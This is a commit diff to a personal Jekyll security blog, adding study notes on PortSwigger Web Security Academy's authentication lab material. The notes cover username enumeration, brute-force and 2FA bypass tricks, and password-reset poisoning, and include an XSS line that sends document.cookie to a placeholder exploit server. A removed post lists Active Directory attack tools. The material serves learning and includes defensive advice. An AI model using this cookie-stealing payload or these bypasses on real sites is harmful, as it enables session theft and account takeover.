

Before and after one commit to phisabella/phisabella.github.io, a Jekyll site: the page built from archive.html, in a window 1280 px wide. Shown: the whole page at 97% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 934 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
wsa update

````diff
--- a/_posts/2021-04-30-WSA-1-SQL-Injection.markdown
+++ b/_posts/2021-04-30-WSAcademy-1-SQL-Injection.markdown
@@ -1,6 +1,6 @@
 ---
 layout: article
-title: SQL injection--Web Security Academy 1
+title: WSAcademy 1 -- SQL injection
 mathjax: true
 key: a00002
 cover: /bkgs/1.png
@@ -8,7 +8,7 @@ modify_date: 2021-07-14
 show_author_profile: true
 excerpt_type: html
 tag:
-- Academy
+- WSAcademy
 - SQLi
 mode: immersive
 header:
--- /dev/null
+++ b/_posts/2021-05-06-WSAcademy-2-Authentication.markdown
@@ -0,0 +1,157 @@
+---
+layout: article
+title: WSAcademy 2 -- Authentication
+mathjax: true
+key: a00004
+cover: /bkgs/1.png
+modify_date: 2021-08-6
+show_author_profile: true
+excerpt_type: html
+tag:
+- WSAcademy
+- Authentication
+mode: immersive
+header:
+  theme: dark
+article_header:
+  type: overlay
+  theme: dark
+  background_color: '#203028'
+  background_image:
+    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
+    src: /docs/assets/images/cover3.jpg
+---
+
+# 前言
+
+这篇是Web Security Academy的Authentication部分
+<!--more-->
+原文：[Authentication vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/authentication)
+
+# 身份鉴定三因素
+
+There are three authentication factors into which different types of authentication can be categorized:
+
+- Something you **know**, such as a password
+
+- Something you **have**, that is, a physical object like a mobile phone or security token
+
+- Something you **are** or do, for example, your biometrics or patterns of behavior
+
+
+
+# Vulnerabilities in password-based login
+
+## Username enumeration
+
+you should pay particular attention to any differences in:
+
+**Status codes:like 200 302**
+
+**Error messages**: any difference , even a ','
+
+**Response times**: set the password to a long long one ,check the response time.
+
+you can change X-Forwarded-For to change your ip (or Host to localhost)
+
+## Flawed brute-force protection
+
+### IP block
+
+- **change it**（云函数hhh）
+- **login and logout** **，有些登陆进去后会重置失败次数**
+- **一次传多个密码**
+
+### **account locking**
+
+- **在被锁次数内枚举，可能有些返回会不同**
+
+# Vulnerabilities in multi-factor authentication
+
+同一因素验证两边并不是两步验证
+
+LIKE Email-based 2FA
+
+一般来讲需要从某个设备生成code而不是从网络上接收code
+
+bypass：
+
+- 网站不一定会验证第二步是否成功，可以直接输入路径尝试  /my-account
+- 利用逻辑漏洞绕过第一步或第二步（比如用a登陆b，修改a的token为b之类）
+- 即便设置了验证次数，仍然可以通过宏来反复登陆爆破验证码（如果每次都重新生成一次验证码呢？）
+
+# Vulnerabilities in other authentication mechanisms
+
+## Keeping users logged in
+
+if the cookie is easy to guess , like (name:pass(md5))base63, it's easy to brute-force.
+
+XSS could also be used , like
+
+```javascript
+<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
+```
+
+to steal cookie and decode it
+
+## Resetting user passwords
+
+### Sending passwords by email
+
+### Resetting passwords using a URL
+
+- token is not working , just change the user and it would work
+- change X-Forwarded-Host: your-exploit-server-id , lure the victim to send you the email received from server , and replace your token with his to change his     passwd
+
+### Password reset poisoning
+
+- manipulates a vulnerable website into generating a password reset link pointing to a domain under their control(like change XFH above)
+
+- 即想办法生成并诱导victim点击指向hacker服务器从目标服务器发出的带有token的链接
+
+（Host: acb31f7e1e4ece4480c60b980199009e.web-security-academy.ne）
+
+## Changing user passwords
+
+- Typically, changing your password involves entering your current password and then the new password twice
+
+- you might be able to change others passwd by edit your post infos , and differ by the response(right passwd shows two new passwd are not same , error passwd shows error passwd)
+
+# Vulnerabilities in third-party authentication mechanisms
+
+oauth authentication(see other notes)
+
+# How to secure your authentication mechanisms
+
+- Take care with  user credentials
+
+- - redirecting  any attempted HTTP requests to HTTPS
+  - make sure that no username or email addresses are disclosed either through publicly accessible profiles or reflected in HTTP responses
+
+- Don't count on users for security
+
+- Prevent username enumeration
+
+- - Regardless  of whether an attempted username is valid,use identical, generic error messages, and make sure they really are identical.
+  - always return the same HTTP status code with each login request
+  - make the response times in different scenarios as indistinguishable as possible.
+
+- Implement robust brute-force protection
+
+- -  implement strict, IP-based user rate limiting
+
+- - require the user to complete a CAPTCHA test with every login attempt after a certain limit is reached.
+
+- Triple-check your verification logic
+
+- Don't forget supplementary functionality
+
+- - Remember  that a password reset or change is just as valid an attack surface as the  main login mechanism and, consequently, must be equally as robust.
+
+- Implement proper multi-factor authentication
+
+- - Remember  that verifying multiple instances of the same factor is not true  multi-factor authentication（Sending verification codes  via email is essentially just a more long-winded form of single-factor  authentication.）
+
+- - Ideally, 2FA should be  implemented using a dedicated device or app that generates the  verification code directly
+
+- - Finally, just as with the main  authentication logic, make sure that the logic in your 2FA checks is  sound so that it cannot be easily bypassed.
--- a/_posts/2021-05-17-WSA-3-Directory-traversal.markdown
+++ /dev/null
@@ -1,60 +0,0 @@
----
-layout: article
-title: Recommended resources--AD from 0 to 0.9 part 9
-mathjax: true
-key: a00014
-cover: /bkgs/3.jpg
-modify_date: 2021-10-6
-show_author_profile: true
-excerpt_type: html
-tag:
-- DC
-- Pentest
-mode: immersive
-header:
-  theme: dark
-article_header:
-  type: overlay
-  theme: dark
-  background_color: '#203028'
-  background_image:
-    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
-    src: /docs/assets/images/cover3.jpg
----
-
-这篇是Web Security Academy的Directory traversal部分<!--more-->
-
-原文：[What is directory traversal, and how to prevent it? | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/file-path-traversal)
-
-# Recommended resources
-
-文中有很多链接，都可以看看，有些关于AD信息的比较好的网站
-
-- [Microsoft Windows      Technical Documents](https://docs.microsoft.com/en-us/openspecs/windows_protocols/MS-WINPROTLP/e36c976a-6263-42a8-b119-7a3cc41ddd2a)
-- [Active Directory Security](https://adsecurity.org/)
-- https://blog.harmj0y.net/
-- [hackndo](https://en.hackndo.com/)
-- https://dirkjanm.io/
-- [Steve on Security](https://syfuhs.net/)
-- [Lab of a Penetration Tester](https://www.labofapenetrationtester.com/)
-- [ired.team](https://www.ired.team/)
-
-
-
-还有很多工具，看它们的代码能学到很多AD机制和协议，以下列出的是很少一部分，文中还有更多
-
-| [mimikatz](https://github.com/gentilkiwi/mimikatz)           | 可能是攻击Windows和Active       Directory最著名的工具。它在C中实现了从Windows计算机检索凭据和在Active Directory中模拟用户的 [all        kind of attacks](https://github.com/gentilkiwi/mimikatz/wiki) 。 |
-| ------------------------------------------------------------ | ------------------------------------------------------------ |
-| [impacket](https://github.com/SecureAuthCorp/impacket)       | impacket实现了这里用python描述的许多协议，了解它们的工作原理是值得的。它还包括许多实现此处描述的攻击的示例。 |
-| [responder.py](https://github.com/lgandx/Responder)          | Responder 允许您滥用Windows解析协议执行大量PitM攻击，并为您提供大量收集NTLM哈希的协议服务器。值得知道它是如何工作的。 |
-| [Rubeus](https://github.com/GhostPack/Rubeus)                | Rubeus是一个C#套件，用于从Windows计算机执行Kerberos攻击。您可以检查它以了解Kerberos的工作原理。 |
-| [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  | CME是一个python工具，它允许您以一种简单的方式执行这里描述的许多不同的攻击。 |
-| [BloodHound](https://github.com/BloodHoundAD/BloodHound)     | BloodHound 允许你用许多不同的LDAP请求和其他请求来映射Active       Directory网络。如果您想了解Active Directory侦察，应该看看。 |
-| [Powerview](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1) | 一个Powershell工具，它实现了许多Active Directory LDAP和其他协议查询，以从Active       Directory检索[all        kind of information](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)。 |
-| [Empire](https://github.com/BC-SECURITY/Empire)              | 在Active Directory机器中部署代理的套件，允许您执行各种攻击。[data/module_source](https://github.com/BC-SECURITY/Empire/tree/master/data/module_source)目录包含许多工具，用于对Active       directory执行侦察和攻击，值得一看。 |
-
-
-
-# 后记
-
-这篇文章自己看了一遍，最近又整理了一遍，但还是有很多不太理解的地方，还得继续学习。这个系列的笔记就像作者说的一样当作索引就好，之后有遇到熟悉又陌生的内容再回来看看，有了新的发现再加一些自己的理解（毕竟到后面几篇更像翻译而不是笔记了hhh）。
--- a/_posts/2021-05-06-WSA-2-Authentication.markdown
+++ b/_posts/2021-05-17-WSAcademy-3-Directory-traversal.markdown
@@ -1,15 +1,14 @@
 ---
 layout: article
-title: Authentication--Web Security Academy 2
+title: WSAcademy 3 -- Directory traversal
 mathjax: true
-key: a00004
+key: a00014
 cover: /bkgs/1.png
-modify_date: 2021-08-6
+modify_date: 2021-10-6
 show_author_profile: true
 excerpt_type: html
 tag:
-- Academy
-- Authentication
+- WSAcademy
 mode: immersive
 header:
   theme: dark
@@ -22,8 +21,6 @@ article_header:
     src: /docs/assets/images/cover3.jpg
 ---
 
-# 前言
+这篇是Web Security Academy的Directory traversal部分<!--more-->
 
-这篇是Web Security Academy的Authentication部分
-<!--more-->
-原文：[Authentication vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/authentication)
+原文：[What is directory traversal, and how to prevent it? | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/file-path-traversal)
````
